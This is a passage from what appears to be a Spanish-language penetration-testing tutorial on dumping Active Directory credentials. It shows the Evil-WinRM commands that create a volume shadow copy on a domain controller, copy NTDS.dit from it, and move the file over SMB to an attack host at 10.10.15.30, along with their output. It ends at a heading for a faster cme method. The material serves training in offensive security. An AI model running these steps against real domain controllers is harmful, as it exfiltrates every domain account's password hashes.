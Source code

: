 #### Atacando Active Directory & NTDS.dit

```bash
bashCopiar código*Evil-Win-RM* PS C:\> vssadmin CREATE SHADOW /For=C:
```

**Salida de VSS**

```plaintext
plaintextCopiar códigovssadmin 1.1 - Herramienta de línea de comandos administrativa del Servicio de Copia de Sombra de Volumen
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

### Copiando NTDS.dit desde el VSS

Podemos luego copiar el archivo **NTDS.dit** desde la copia de sombra del volumen **C:** a otra ubicación en el disco para prepararnos para mover **NTDS.dit** a nuestro host de ataque.

#### Atacando Active Directory & NTDS.dit

```bash
bashCopiar código*Evil-Win-RM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

```plaintext
plaintextCopiar código        1 file(s) copied.
```

Antes de copiar **NTDS.dit** a nuestro host de ataque, podríamos querer usar la técnica que aprendimos anteriormente para crear un recurso compartido SMB en nuestro host de ataque. Siéntete libre de volver a la sección **Atacando SAM** para revisar ese método si es necesario.

***

## Transfiriendo NTDS.dit al Host de Ataque

Ahora se puede usar `cmd.exe /c move` para mover el archivo desde el DC objetivo a la carpeta compartida en nuestro host de ataque.

#### Atacando Active Directory & NTDS.dit

```bash
bashCopiar código*Evil-Win-RM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData
```

```plaintext
plaintextCopiar código        1 file(s) moved.
```

### Un Método Más Rápido: Usando cme para Capturar NTDS.dit
